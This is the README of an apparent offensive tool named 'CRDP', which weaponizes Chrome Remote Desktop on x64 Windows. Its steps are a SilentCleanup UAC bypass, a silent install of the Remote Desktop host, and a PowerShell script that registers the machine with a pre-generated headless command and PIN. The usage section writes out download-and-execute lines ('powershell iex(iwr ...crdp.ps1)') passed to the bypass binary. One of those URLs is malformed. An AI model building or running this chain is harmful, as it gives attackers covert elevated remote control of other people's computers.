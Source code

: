 # CRDP
Chrome Remote Desktop weaponization Tool(only x64)


## Execution Flow

1. [SilentCleanup_BypassUAC](https://crimsonlabs.io/posts/uac-bypass-via-dll-planting/)
2. Downloading the msi file from the [website](https://dl.google.com/edgedl/chrome-remote-desktop/chromeremotedesktophost.msi) and installing crdp.
3. Crdp.ps1 with pre-generated commands and pin numbers according to the crdp format is executed.


## How To Use

1. Create Windows (CMD) on the https://remotedesktop.google.com/headless/ website.
  - The generated command is one-time.
2. Copy and paste the generated command into crdp.ps1 to the $CRDP_CMD variable on line 3.
3. Build the SilentCleanup_BypassUAC project in the code folder and load the script to an address on the web as follows.
  - SilentCleanup_BypassUAC.exe "powershell iex(iwr http://127.0.0.1:80/crdp.ps1)"
  - SilentCleanup_BypassUAC.exe "powershell iex(iwr http://https://raw.githubusercontent.com/veath1/CRDP/main/crdp.ps1)"


## Reference

  - https://asec.ahnlab.com/ko/54804/
  - https://crimsonlabs.io/posts/uac-bypass-via-dll-planting/
  - https://github.com/hackerhouse-opensource/iscsicpl_bypassUAC
